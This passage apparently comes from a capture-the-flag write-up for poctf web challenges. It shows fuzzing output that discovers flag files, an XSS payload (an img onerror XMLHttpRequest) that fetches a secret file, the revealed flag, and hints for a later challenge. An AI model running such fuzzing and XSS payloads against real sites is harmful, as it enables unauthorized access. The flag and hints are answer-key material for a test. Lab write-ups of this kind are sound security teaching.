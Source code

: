 ```bash
    * FUZZ: flag.txt

[Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 158ms]
    * FUZZ: flag.pgsql.txt

[Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 163ms]
    * FUZZ: flag.mysql.txt

[Status: 200, Size: 31, Words: 1, Lines: 1, Duration: 160ms]
    * FUZZ: flag.pdf
...
```
> Use low number of threads (-t) to make requests go slow, otherwise you'll get ip banned!
{: .prompt-danger }

XSS Payload:

```html
<!-- 
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("GET", "https://nvstgt.com/ManyKin/secret/flag.pdf");
  xhr.onload = () => console.log(xhr.response);
  xhr.send();
</script> 
-->

<img
  src="x"
  onerror="const xhr = new XMLHttpRequest(); xhr.open('GET', 'https://nvstgt.com/ManyKin/secret/flag.pdf'); xhr.onload = () => console.log(xhr.response); xhr.send();"
/>
```

> Flag: poctf{uwsp_71m3_15_4n_1llu510n}
{: .prompt-tip }

### Note

Turned out you could just `curl` the file.

## Quantity is Not Abundance

### Description

That flag is in an internal location on this site

Once you know where it is, manipulate the site's function to get it!

[Go to Quantity is Not Abundance](https://nvstgt.com/Quantity/index.html)

Hint 1: under /.secret/
Hint 2: under /.secret/flag.txt
